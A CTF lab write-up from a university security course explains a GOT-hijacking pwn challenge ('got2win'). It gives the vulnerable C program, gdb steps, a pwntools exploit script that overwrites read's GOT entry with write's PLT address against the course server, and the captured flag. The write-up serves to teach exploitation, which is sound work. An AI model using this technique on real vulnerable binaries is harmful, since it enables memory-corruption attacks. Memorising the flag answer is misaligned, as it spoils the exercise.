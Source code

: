 ```yaml
---
title: Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`

## GOT Background
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4?t=4423)
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA?t=6017)

## Original Code
:::spoiler Original Code
```cpp!=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{% raw %}{%{% endraw %}s}... Just kidding :)\n", flag);

    return 0;
}
```
:::
* The program read the flag first at line `13~16`
* At line `19~22`, it allow user input an address and its value
* At line `25`, you may think it's weird that it use `stdout` as `read` function's parameter.
* In addition, it doesn't have buffer overflow, so that we can not use the technique before to get flag.
* Thus, our perspective is we can <font color="FF0000">overlap the `read GOT` by `write plt`</font>, so that it can execute write function:
`int nr=write(1, flag, 0x30);`

## Exploit
* First, we should find the address of `read GOT` and `write plt`
    ```bash!
    gdb chal
    b *main()
    ni    # Until write function
    si
    ```
    ![reference link](https://imgur.com/LFfc5fS.png)
* Then we wanna know `read GOT` address
![](https://imgur.com/hygnwEQ.png)
* My exploit is:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r=remote('edu-ctf.zoolab.org', 10004)
    context.terminal = ['tmux', 'splitw', '-h']

    read_got = 0x404038
    write_plt = 0x4010c0

    r.sendlineafter('Overwrite addr: ', str(read_got))
    r.sendafter('Overwrite 8 bytes value: ', p64(write_plt))

    r.interactive()
    ```
    Then, we can use `read` function as `write` function to get flag  <font color="FF0000">`FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}`</font>

## Reference
[PWN week1](https://youtu.be/ktoVQB99Gj4)